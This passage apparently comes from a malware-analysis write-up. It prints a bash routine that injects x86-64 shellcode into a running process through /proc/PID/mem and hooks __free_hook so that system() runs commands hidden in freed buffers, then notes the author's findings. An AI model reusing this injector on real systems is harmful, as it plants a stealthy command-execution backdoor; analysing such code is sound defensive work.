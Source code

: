 ```shell

inject() {
    target_pid="$1"

    libc_map_in_target=$(grep -E "/libc.*so$" "/proc/$target_pid/maps" | head -n 1 | tr -s ' ')
    libc_start=$((0x$(cut -d '-' -f1 <<< "$libc_map_in_target")))
    libc_path=$(cut -d ' ' -f6 <<< "$libc_map_in_target")
    __free_hook_offset=$((libc_start+$(get_function_offset $libc_path __free_hook)))
    system_offset=$((libc_start+$(get_function_offset $libc_path system)))
    free_offset=$((libc_start+$(get_function_offset $libc_path free)))
    malloc_usable_size_offset=$((libc_start+$(get_function_offset $libc_path malloc_usable_size)))
    libc_exec_end=$((0x$(grep -E "/libc.*so$" "/proc/$target_pid/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    payload='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    payload=$(replace_addr $payload '\x41\x41\x41\x41\x41\x41\x41\x41' $(pack $malloc_usable_size_offset))
    payload=$(replace_addr $payload '\x42\x42\x42\x42\x42\x42\x42\x42' $(pack $free_offset))
    payload=$(replace_addr $payload '\x43\x43\x43\x43\x43\x43\x43\x43' $(pack $system_offset))
    payload=$(replace_addr $payload '\x44\x44\x44\x44\x44\x44\x44\x44' $(pack $__free_hook_offset))
    payload_len=$(echo -ne $payload | wc -c)
    inject_addr=$(($libc_exec_end - $payload_len))
    payload=$(replace_addr $payload '\x55\x55\x55\x55\x55\x55\x55\x55' $(pack $inject_addr))

    inject_payload $target_pid $inject_addr $payload
    inject_payload $target_pid $__free_hook_offset $(pack $inject_addr)
}

if [ $# -ne 1  ] || [ ! -e "/proc/$1" ] ; then
    exit 42
fi

inject $1
```

We now know the following:
- injection is performed by writing in `/proc/$1/mem`
- a code cave is found is a segment with write and execution rights
- injection is performed by setting `__free_hook` to the shellcode injection address
- `system()` will be called with something as an argument

`__free_hook` is defined [here](https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html) as "The value of this variable is a pointer to function that free uses whenever it is called"
